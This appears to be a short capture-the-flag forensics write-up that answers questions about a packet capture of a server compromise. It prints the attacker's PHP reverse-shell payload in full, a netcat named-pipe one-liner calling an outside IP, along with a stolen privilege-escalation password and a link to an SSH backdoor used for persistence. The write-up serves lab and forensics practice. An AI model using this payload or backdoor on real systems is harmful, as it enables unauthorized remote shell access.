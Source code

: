# Forensics - Analyse the PCAP

## Questions
1. What was the URL of the page they used to upload a reverse shell?
```
/development/
```

2. What payload did the attacker use to gain access?
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

3. What password did the attacker use to privesc?
```
whenevernoteartinstant
```

4. How did the attacker establish persistence?
```
https://github.com/NinjaJc01/ssh-backdoor
```

5. Using the fasttrack wordlist, how many of the system passwords were crackable?
```
4
```